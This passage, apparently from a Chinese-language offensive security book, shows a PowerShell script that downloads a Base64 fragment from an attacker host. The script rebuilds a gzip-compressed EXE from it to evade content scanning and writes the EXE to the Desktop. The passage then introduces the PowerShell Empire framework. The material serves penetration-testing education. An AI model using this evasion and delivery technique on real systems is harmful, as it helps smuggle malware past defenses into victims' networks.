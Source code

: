 图 9.12 – Google 发现了！

不用担心，因为这个聪明的扫描考虑了所有的二进制数据。剪掉几个字母，它就会变得混乱。再次强调，可能性仅受你的想象力限制，但想法是你创建一个由 Base64 代码片段组成的*拼图*，然后在接收端简单地连接起来。在我们的例子中，让我们从文本文件中剪掉前五个字符，然后将剩余字符发送到网络上。让我们来看一下：

Invoke-WebRequest -Uri "http://192.168.108.211:8000/sneaky.txt" -OutFile "fragment.txt"

$fragment = Get-Content -Path "fragment.txt"

$final = "H4sIA" + $fragment

$compressedFromb64 = [Convert]::FromBase64String($final)

$memoryStream = New-Object io.MemoryStream( , $compressedFromb64)

$compressStream = New-Object System.io.Compression.GZipStream($memoryStream, [io.Compression.CompressionMode]::Decompress)

$finalStream = New-Object io.MemoryStream

$compressStream.CopyTo($finalStream)

$DesktopPath = [Environment]::GetFolderPath("Desktop")

$TargetPath = $DesktopPath + "\NotNaughty.exe"

[IO.File]::WriteAllBytes($TargetPath, $finalStream.ToArray())

我们可以用更少的行数完成所有这些操作，但我将它们列出来，以便我们可以看到攻击的每个阶段。一旦我们的脚本提取了片段，我们只需连接缺失的部分并将其保存为**$final**。因此，**$final**现在包含以 EXE 格式的 Base64 编码、gzip 压缩的二进制代码。我们可以使用之前讨论过的相同方法反向操作，然后使用**WriteAllBytes**方法在我们这一端重新创建 EXE。将这个技巧与本书中之前讨论的恶意软件规避技术相结合，你就拥有了一个强大的渠道，可以将你的工具偷偷带入目标环境。

正如 Metasploit 中的一切都可以手动完成一样，幸运的是，我们在工具包中有一个框架，可以简化开发强大的 PowerShell 攻击的手动任务。让我们来看看 Empire 框架。

# Offensive PowerShell – 介绍 Empire 框架

我们能够坐在 Windows 机器前，通过 PowerShell 与操作系统如此紧密地互动，毫无疑问是 Windows 管理员的梦想成真。作为攻击者，我们看到的是精确制导导弹的各个部件，我们只需要时间去构建它。在渗透测试中，我们通常没有时间即时编写完美的 PowerShell 脚本，因此大多数渗透测试员都有一个装满自制脚本的“糖果袋”，用于执行某些任务。我使用的一个脚本，客户端一个接一个地运行，做的仅仅是扫描开放端口，并将 IP 地址转储到按开放端口命名的文件夹中的文本文件里。像这样的事情看起来平淡无奇，甚至有些无意义——直到你身处现场，意识到你已经节省了数十个小时。

高级安全专家会以这种方式看待像 Metasploit 这样的工具——它是一个框架，用于有组织、高效和整洁地传递工具，当内置的工具集无法满足需求时。在 PowerShell 的世界中，有一个框架自动化了引导和管理与目标的通信通道，以进行复杂的 PowerShell 攻击。欢迎来到 Empire。

## 安装并引入 PowerShell Empire

让我们通过动手实践来介绍 PowerShell Empire。安装非常简单，但首先我们需要更新 **apt**：

![图 9.13 – 在 Kali 上安装 PowerShell Empire](img/Figure_9.13_B17616.jpg)

图 9.13 – 在 Kali 上安装 PowerShell Empire

安装完成后，你可以通过以下命令启动团队服务器：

powershell-empire 服务器

没错——使用 PowerShell Empire 轻松进行红队攻击。注意 RESTful API 也托管在 **1337** 端口上——可以用你最喜欢的编程语言进行大量自动化，使你能够在有限的时间内从一台 PC 上完成多名攻击者的工作。
